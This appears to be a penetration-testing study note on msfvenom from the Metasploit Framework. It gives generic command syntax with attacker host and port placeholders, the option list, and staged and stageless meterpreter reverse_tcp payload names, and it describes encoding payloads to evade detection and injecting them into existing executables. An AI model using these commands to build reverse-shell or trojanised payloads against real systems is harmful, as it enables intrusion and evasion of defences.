 # Index
- [[Metasploit]]
	- [[Metasploit Multi Handler]]
	- [[Meterpreter]]
	- [[Msfvenom]]
	- [[Searchsploit]]

# Msfvenom

Msfvenom is a part of the Metasploit Framework and is used to generate malicious payloads and encode them to evade detection. It combines the capabilities of the previously separate `msfpayload` and `msfencode` into a single tool, making it easier to generate and encode payloads in a single command.

## Basic Syntax
```bash
msfvenom [options] -p <payload> LHOST=<attack_ip> LPORT=<attack_port> -f <format> -o <output_file>
```

## Core Options
- `-h`: Help
- `-p`: Specifies the payload to use.
- `-l (list type)`: List module type i.e. payloads, encoders
	- `-l payloads`
	- `-l encoders`
	- `-l formats`
- `-f`: Format for the output file (e.g., exe, elf, raw, etc.).
- `-e`: Encoder to use for encoding the payload.
- `-o <filename>`: Specifies the output file to save the payload.
- `-a`: Specifies the architecture (x86, x64, etc.).
- `-s (space)`: Define maximum payload capacity
- `-b <characters>`: Bad characters to avoid.
- `--platform`: Specifies the target platform (Windows, Linux, etc.).
- `-x <filename>`: Inject the payload into an existing executable.
- `-i <number>`: Number of encoding iterations.
- `-k`: Keep the original functionality of the file when using the `-x` option (injecting into executables).
- `-n`: NOP sled length to use in payload.
- `LHOST`: Local host (attacker's IP address).
- `LPORT`: Local port (attacker's port).

## Payload Options

1. **Payload Structure:**
	```bash
	<type>/<os>/<payload_name>
	```
2. **List Payloads:**
	```bash
	msfvenom -l payloads
	```
3. **Staged (payload path contains `/`):**
	```bash
	windows/x64/meterpreter/reverse_tcp
	```
4. **Stageless (payload path contains `_`):**
	```bash
	windows/x64/meterpreter_reverse_tcp
	```
